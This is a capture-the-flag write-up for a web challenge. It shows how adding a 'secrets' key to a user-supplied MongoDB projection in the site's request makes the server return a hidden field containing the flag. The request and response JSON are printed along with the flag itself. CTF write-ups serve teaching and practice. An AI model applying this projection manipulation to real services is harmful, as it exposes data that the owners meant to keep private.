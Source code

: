 # IRS Internal CTF: Web

## Cells at work (sheepymeh) [75 Points]

**Some friends made [this website](https://server.sheepymeh.tk/) to share their favorite anime! They wanted to learn something new here, so they don't know how to use it properly. But it works...?**

**But we all know that everyone keeps some *secrets*. Find out what they are and tell me, for um blackmail material I mean to know them better.**

### Solution

Welcome to the most overvalued challenge of the day. This challenge is a web challenge, using MongoDB. This isn't clear at first, but should be quite obvious once we start looking at the requests being sent:

```json
{
    "query": "",
    "info":{
        "name": 1,
        "score": 1,
        "description": 1
    }
}
```

To anyone who knows anything about Mongo, it should be instantly clear that `info` is a [MongoDB Projection](https://docs.mongodb.com/manual/reference/method/db.collection.find/#db.collection.find). If this wasn't clear, the hint should help (it provides the source code). Alternatively, it's pretty obvious that the `info` object is just a bunch of keys to retrieve from the server.

Now, a very simple "injection" (haha cells at work immune system vaccination injection haha) needs to be performed. The hint given in the challenge description was the word "secrets", which was in italics. Editing the query:

```json
{
    "query": "",
    "info":{
        "name": 1,
        "score": 1,
        "description": 1,
        "secrets": 1
    }
}
```

We get this response:

```json
{
    "_id":"5ede4e815df37d1a64f55420",
    "name":"Karakai Jouzu no Takagi-san 2",
    "score":8,
    "description":"\"If you blush, you lose.\" ... even once in the end?",
    "secret":"IRS{1F_Y0U_N33D_M0R3_R3CC0M3ND4T10N5_A5K_M3}"
}
```

### Flag

```
IRS{1F_Y0U_N33D_M0R3_R3CC0M3ND4T10N5_A5K_M3}
```
